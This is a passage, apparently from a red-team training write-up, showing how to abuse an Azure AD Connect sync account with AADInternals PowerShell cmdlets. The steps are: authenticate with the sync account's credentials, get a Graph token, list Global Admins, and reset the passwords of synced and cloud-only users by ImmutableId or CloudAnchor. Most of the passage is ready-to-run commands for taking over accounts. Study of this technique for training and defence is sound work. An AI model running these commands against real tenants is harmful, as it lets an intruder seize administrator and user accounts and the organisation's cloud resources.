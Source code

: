 ```powershell
$passwd = ConvertTo-SecureString '<password>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("Sync_DEFENG-ADCNCT_782bef6aa0a9@defcorpsecure.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds -SaveToCache
```

Next, enumerate the Global Admins:
```powershell
Get-AADIntGlobalAdmins
```

To reset the password of an on-prem user that is synced to Azure AD, we need the ImmutableId (Unique Identifier derived from on-prem GUID) for the user:
```powershell
Get-AADIntUser -UserPrincipalName onpremadmin@tenant.onmicrosoft.com | select ImmutableId
```

Finally, reset the user's password:
```powershell
Set-AADIntUserPassword -SourceAnchor "E2gG19HA4EaDe0+3LkcS5g==" -Password "Password123" -Verbose
```

> Access any Azure AD resource (like Azure portal) using the new password. For on-prem resources, the old password can be used.


To reset the password of a cloud-only user, we need their CloudAnchor, which can be calculated from their cloud ObjectID:
```powershell
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID
```

> The CloudAnchor is of the format **USER_ObjectID**

Finally, reset the user's password:
```powershell
Set-AADIntUserPassword -CloudAnchor "User_10caa362-7d18-48c9-a45b-9c3a78f3a96b" -Password "Password#12321" -Verbose
```

> You can now access any Azure AD resource (like Azure portal) using the new password.


#### PTA

![Alt text](/assets/images/posts/cartp/18.png){: .align-center}
